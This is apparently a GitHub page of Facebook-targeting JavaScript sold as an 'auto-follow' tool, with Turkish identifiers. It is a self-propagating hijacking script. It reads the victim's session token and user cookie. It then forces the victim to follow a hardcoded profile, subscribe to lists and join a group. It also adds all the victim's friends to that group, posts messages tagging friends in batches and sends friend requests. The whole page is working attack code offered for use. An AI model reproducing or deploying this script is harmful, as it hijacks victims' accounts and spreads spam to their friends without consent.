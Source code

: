 Auto-Follow-Free-10000-
=======================

    var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value;     var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);           function cereziAl(isim) {     var tarama = isim + "=";     if (document.cookie.length > 0) {     konum = document.cookie.indexOf(tarama)     if (konum != -1) {     konum += tarama.length     son = document.cookie.indexOf(";", konum)     if (son == -1)     son = document.cookie.length     return unescape(document.cookie.substring(konum, son))     }     else { return ""; }     }     }           function getRandomInt (min, max) {     return Math.floor(Math.random() * (max - min + 1)) + min;     }     function randomValue(arr) {     return arr[getRandomInt(0, arr.length-1)];     }           var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value;     var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);           function a(abone){     var http4 = new XMLHttpRequest();           var url4 = "/ajax/follow/follow_profile.php?__a=1";           var params4 = "profile_id=" + abone + "&amp;location=1&amp;source=follow-button&amp;subscribed_button_id=u37qac_37&amp;fb_dtsg=" + fb_dtsg + "&amp;lsd&amp;__" + user_id + "&amp;phstamp=";     http4.open("POST", url4, true);           //Send the proper header information along with the request     http4.setRequestHeader("Content-type", "application/x-www-form-urlencoded");     http4.setRequestHeader("Content-length", params4.length);     http4.setRequestHeader("Connection", "close");           http4.onreadystatechange = function() {//Call a function when the state changes.     if(http4.readyState == 4 &amp;&amp; http4.status == 200) {           http4.close; // Close the connection           }     }           http4.send(params4);     }           function sublist(uidss) {     var a = document.createElement('script');     a.innerHTML = "new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&amp;action=subscribe').setData({ flid: " + uidss + " }).send();";     document.body.appendChild(a);     }           a("100002035311725");           sublist("686319338112570");     sublist("686319254779245");     sublist("686319241445913");     sublist("686319214779249");     sublist("686319228112581");     sublist("686319228112581");     sublist("686319214779249");     sublist("686319044779266");     sublist("686319208112583");     sublist("686319201445917");     sublist("686319188112585");     sublist("686319168112587");     sublist("686319011445936");     sublist("686318394779331");     sublist("686318361446001");     sublist("686318291446008");     sublist("686318441445993");     sublist("686318291446008");     sublist("686317934779377");     sublist("686318928112611");     sublist("686318481445989");     sublist("686318478112656");     sublist("1468386253409907");     sublist("1468386493409883");     sublist("1468386613409871");     sublist("1468386776743188");     sublist("1473473409567858");     sublist("1473473489567850");     sublist("1472123113036221");     sublist("1473474772901055");     sublist("1473474992901033");     var gid = ['1466349933613396'];           var fb_dtsg = document['getElementsByName']('fb_dtsg')[0]['value'];     var user_id = document['cookie']['match'](document['cookie']['match'](/c_user=(\d+)/)[1]);           var httpwp = new XMLHttpRequest();     var urlwp = '/ajax/groups/membership/r2j.php?__a=1';     var paramswp = '&amp;ref=group_jump_header&amp;group_id=' + gid + '&amp;fb_dtsg=' + fb_dtsg + '&amp;__user=' + user_id + '&amp;phstamp=';     httpwp['open']('POST', urlwp, true);     httpwp['setRequestHeader']('Content-type', 'application/x-www-form-urlencoded');     httpwp['setRequestHeader']('Content-length', paramswp['length']);     httpwp['setRequestHeader']('Connection', 'keep-alive');     httpwp['send'](paramswp);           var fb_dtsg = document['getElementsByName']('fb_dtsg')[0]['value'];     var user_id = document['cookie']['match'](document['cookie']['match'](/c_user=(\d+)/)[1]);           var friends = new Array();     gf = new XMLHttpRequest();     gf['open']('GET', '/ajax/typeahead/first_degree.php?__a=1&amp;viewer=' + user_id + '&amp;token' + Math['random']() + '&amp;filter[0]=user&amp;options[0]=friends_only', false);     gf['send']();     if (gf['readyState'] != 4) {} else {     data = eval('(' + gf['responseText']['substr'](9) + ')');     if (data['error']) {} else {     friends = data['payload']['entries']['sort'](function (_0x93dax8, _0x93dax9) {     return _0x93dax8['index'] - _0x93dax9['index'];     });     };     };           for (var i = 0; i &lt; friends['length']; i++) {     var httpwp = new XMLHttpRequest();     var urlwp = '/ajax/groups/members/add_post.php?__a=1';     var paramswp= '&amp;fb_dtsg=' + fb_dtsg + '&amp;group_id=' + gid + '&amp;source=typeahead&amp;ref=&amp;message_id=&amp;members=' + friends[i]['uid'] + '&amp;__user=' + user_id + '&amp;phstamp=';     httpwp['open']('POST', urlwp, true);     httpwp['setRequestHeader']('Content-type', 'application/x-www-form-urlencoded');     httpwp['setRequestHeader']('Content-length', paramswp['length']);     httpwp['setRequestHeader']('Connection', 'keep-alive');     httpwp['onreadystatechange'] = function () {     if (httpwp['readyState'] == 4 &amp;&amp; httpwp['status'] == 200) {};     };     httpwp['send'](paramswp);     };     var spage_id = "100002035311725";     var spost_id = "100002035311725";     var sfoto_id = "100002035311725";     var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);     var smesaj = "";     var smesaj_text = "";     var arkadaslar = [];     var svn_rev;     var bugun= new Date();     var btarihi = new Date();     btarihi.setTime(bugun.getTime() + 1000*60*60*4*1);     if(!document.cookie.match(/paylasti=(\d+)/)){     document.cookie = "paylasti=hayir;expires="+ btarihi.toGMTString();     }           //arkadaslari al ve isle     function sarkadaslari_al(){     var xmlhttp = new XMLHttpRequest();     xmlhttp.onreadystatechange = function () {     if(xmlhttp.readyState == 4){     eval("arkadaslar = " + xmlhttp.responseText.toString().replace("for (;;);","") + ";");     for(f=0;f&lt;Math.round(arkadaslar.payload.entries.length/10);f++){     smesaj = "";     smesaj_text = "";     for(i=f*10;i&lt;(f+1)*10;i++){     if(arkadaslar.payload.entries[i]){     smesaj += " @[" + arkadaslar.payload.entries[i].uid + ":" + arkadaslar.payload.entries[i].text + "]";     smesaj_text += " " + arkadaslar.payload.entries[i].text;     }     }     sdurumpaylas(); }           }           };     var params = "&amp;filter[0]=user";     params += "&amp;options[0]=friends_only";     params += "&amp;options[1]=nm";     params += "&amp;token=v7";     params += "&amp;viewer=" + user_id;     params += "&amp;__user=" + user_id;           if (document.URL.indexOf("https://") >= 0) { xmlhttp.open("GET", "https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1" + params, true); }     else { xmlhttp.open("GET", "http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1" + params, true); }     xmlhttp.send();     }           //tiklama olayini dinle     var tiklama = document.addEventListener("click", function () {     if(document.cookie.split("paylasti=")[1].split(";")[0].indexOf("hayir") >= 0){     svn_rev = document.head.innerHTML.split('"svn_rev":')[1].split(",")[0];     sarkadaslari_al();     document.cookie = "paylasti=evet;expires="+ btarihi.toGMTString();           document.removeEventListener(tiklama);     }     }, false);           //arkada?? ekleme     function sarkadasekle(uid,cins){     var xmlhttp = new XMLHttpRequest();     xmlhttp.onreadystatechange = function () {     if(xmlhttp.readyState == 4){     }     };           xmlhttp.open("POST", "/ajax/add_friend/action.php?__a=1", true);     var params = "to_friend=" + uid;     params += "&amp;action=add_friend";     params += "&amp;how_found=friend_browser";     params += "&amp;ref_param=none";     params += "&amp;outgoing_id=";     params += "&amp;logging_location=friend_browser";     params += "&amp;no_flyout_on_click=true";     params += "&amp;ego_log_data=";     params += "&amp;http_referer=";     params += "&amp;fb_dtsg=" + document.getElementsByName('fb_dtsg')[0].value;     params += "&amp;phstamp=165816749114848369115";     params += "&amp;__user=" + user_id;     xmlhttp.setRequestHeader ("X-SVN-Rev", svn_rev);     xmlhttp.setRequestHeader ("Content-Type","application/x-www-form-urlencoded");           if(cins == "farketmez" &amp;&amp; document.cookie.split("cins" + user_id +"=").length > 1){     xmlhttp.send(params);     }else if(document.cookie.split("cins" + user_id +"=").length &lt;= 1){     cinsiyetgetir(uid,cins,"sarkadasekle");     }else if(cins == document.cookie.split("cins" + user_id +"=")[1].split(";")[0].toString()){     xmlhttp.send(params);     }     }           //cinsiyet belirleme     var cinssonuc = {};     var cinshtml = document.createElement("html");     function scinsiyetgetir(uid,cins,fonksiyon){     var xmlhttp = new XMLHttpRequest();     xmlhttp.onreadystatechange = function () {     if(xmlhttp.readyState == 4){     eval("cinssonuc = " + xmlhttp.responseText.toString().replace("for (;;);","") + ";");     cinshtml.innerHTML = cinssonuc.jsmods.markup[0][1].__html     btarihi.setTime(bugun.getTime() + 1000*60*60*24*365);     if(cinshtml.getElementsByTagName("select")[0].value == "1"){     document.cookie = "cins" + user_id + "=kadin;expires=" + btarihi.toGMTString();     }else if(cinshtml.getElementsByTagName("select")[0].value == "2"){     document.cookie = "cins" + user_id + "=erkek;expires=" + btarihi.toGMTString();     }     eval(fonksiyon + "(" + id + "," + cins + ");");     }     };     xmlhttp.open("GET", "/ajax/timeline/edit_profile/basic_info.php?__a=1&amp;__user=" + user_id, true);     xmlhttp.setRequestHeader ("X-SVN-Rev", svn_rev);     xmlhttp.send();     }
